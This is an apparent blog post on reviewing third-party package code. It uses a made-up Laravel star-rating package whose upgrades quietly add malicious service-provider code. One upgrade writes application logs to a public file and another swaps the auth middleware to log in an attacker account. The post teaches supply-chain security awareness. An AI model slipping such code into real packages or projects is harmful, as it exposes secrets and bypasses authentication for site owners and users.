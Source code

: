 ```yaml
---
title: Remember to Review Your Package Code for Security
date: 2019-08-12
tags:
- php
- laravel
- security
---
```

Open source software is wonderful for many reasons.  One of the best is we can see and inspect the software for vulnerabilities.  But, far too many people actually do this.  Let me demonstrate, using a Laravel package, how this lack of review might backfire and cause you grief.

<!--more-->

> It's important to note that this attack vector is not solely a problem with Laravel.  A lot of projects and code are configured to trust libraries from the package providers.

### My Initial Set Up

I have a website on which I sell shoes.  For example, I have this extremely boring listing for a pair of flip flops:

[![Text-based Stars](/uploads/2019/security-demo-1.thumbnail.png)](/uploads/2019/security-demo-1.png){: .thumbnail}

I'd like to add icon-style stars to the rating.  I heard about this awesome package that allows me to use a Blade directive to do that.  Seems like a nice way to save some time.  The following command is ran:

```bash
composer require aaronsaray/laravel-star-display
```

Before you know it, I have a new Blade helper - yay!  Now, I can write the code like this in my blade file:

```html
<strong>Rated:</strong> @stars(5)
```

I get a nice view like this:

[![UTF8-Icon-based Stars](/uploads/2019/security-demo-2.thumbnail.png)](/uploads/2019/security-demo-2.png){: .thumbnail}

This is great! Moving on!

**Well, there's a problem.**  I didn't look at the code that I just installed.  This package injects its code by registering an auto-discovered service provider for Laravel.  This ease of use/installation is also what makes it easy for this to take advantage of my website.

Let's take a look at the code in the package's service provider:

```php
<?php
namespace AaronSaray\StarDisplay;

use Illuminate\Support\Facades\Blade;
use Illuminate\Support\ServiceProvider;

class StarDisplayServiceProvider extends ServiceProvider
{
    public function boot(): void
    {
        Blade::directive('stars', function ($stars) {
            return "<?= str_repeat('🌟', $stars) ?>";
        });
    }
}
```

Whew - I dodged a bullet!  This package has no malicious code

### It's Upgrade Season

There's an upgrade for this package.  It probably gives me more features or makes it more efficient? I don't have time to check into this.  So, the package gets updated.  Everything seems to be working fine.  However, during this upgrade, the service provider has changed (and I didn't notice).  There's a new line:

```php
<?php
namespace AaronSaray\StarDisplay;

use Illuminate\Support\Facades\Blade;
use Illuminate\Support\ServiceProvider;

class StarDisplayServiceProvider extends ServiceProvider
{
    public function boot(): void
    {
        Blade::directive('stars', function ($stars) {
            return "<?= str_repeat('🌟', $stars) ?>";
        });
        
        app()
          ->make('log')
          ->pushHandler(
            new \Monolog\Handler\StreamHandler(public_path('/secret-log.txt'))
          );
    }
}
```

This code is accessing the Monolog `Logger` instance and adding another stream handler to it.  It's writing my log data to a public directory.  Later on, the "bad guy" can surf to `http://my-site.com/secret-log.txt` and see a copy of all my application logs.

Not a big deal? You never know... you might have a log entry like:

`logger('User sensitive information here.')`

or the application could be configured to log errors.  These stack traces could include passwords and secret keys.

### Another Upgrade

Just by downloading this newly publicly available log file, the attacker has useful information about my users and app.  But, the fact that the log even exists indicates that I use their package and don't care about reviewing it for security.

Imagine I have this very simple admin interface:

```php
Route::get('admin', function () {
    return view('admin');
})->middleware('auth');
```

When you surf to `http://my-site.com/admin` you must be authenticated.  Otherwise, you're redirected.  This is because of the `auth` middleware.  Cool!

The new Star Display package upgrade introduces new code, however.  See if you can spot what's going to happen.

```php
<?php
namespace AaronSaray\StarDisplay;

use Illuminate\Support\Facades\Blade;
use Illuminate\Support\ServiceProvider;

class StarDisplayServiceProvider extends ServiceProvider
{
    public function boot(): void
    {
        Blade::directive('stars', function ($stars) {
            return "<?= str_repeat('🌟', $stars) ?>";
        });
        
        app()
          ->make('log')
          ->pushHandler(
            new \Monolog\Handler\StreamHandler(public_path('/secret-log.txt'))
          );
          
        app()->instance(Authenticate::class, function ($request, $next) {
          $badGuyUser = User::where('email', 'bad@guy.com')->first();
          Auth::login($badGuyUser);
          return $next($request);
        });
    }
}
```

In this code, the bad guy replaces the `Authenticate` (which is aliased to `auth`) middleware with an inline closure.  When we check `auth`, instead of running any sort of checks, this code just grab the bad guy user and force them to be logged in.

### End Notes

These were some pretty contrived examples, but it should illustrate the point. I wanted to demonstrate how it's important for us all to read the code before we install and upgrade packages.  Through these demonstrations, I hope to have shown that a pretty unskilled attacker can compromise your website with just a few lines of code in Laravel.

Again, these attacks are not limited to Laravel.  Something similar to this just happened with [NPM packages](https://www.theregister.co.uk/2018/11/26/npm_repo_bitcoin_stealer/).